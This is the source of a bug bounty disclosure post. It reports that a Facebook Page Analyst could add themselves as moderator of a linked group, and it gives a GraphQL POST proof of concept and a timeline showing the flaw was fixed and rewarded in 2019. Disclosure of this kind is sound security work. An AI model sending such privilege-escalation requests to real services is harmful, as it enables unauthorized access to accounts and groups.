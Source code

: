 ```yaml
---
layout: post
title: Facebook PageAnalyst Could Add oneself as Moderator on Group
categories: articles
---
```


<p align="right" class="date">{{ page.date | date_to_string }} - onehackzero</p>

## Description

&nbsp;&nbsp;&nbsp;There is a call to add member as the moderator on a group. The call at the time didn’t seem to have any authorisation checks to page roles. A page analyst was possible to add oneself as a moderator on a linked group.

## Proof of Concept

{% highlight javascript %}
HTTP POST

graph.facebook.com/graphql/

query_id=QUERYID

query_params={"0":{"user_id":"UserID","admin_type":"MODERATOR","actor_id":"PageID","client_mutation_id":"","source":"treehouse_group_mall","group_id":"GroupID"}}

{% endhighlight %}

## Timeline

- Dec 19, 2018 - Report Sent
- Dec 22, 2018 - Further investigation by Facebook
- Jan 9, 2019 - Fixed by Facebook
- Jan 11, 2019 - Bounty Awarded by Facebook

<iframe width="560" height="315" src="https://www.youtube.com/embed/1_BJu-nLFoM" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>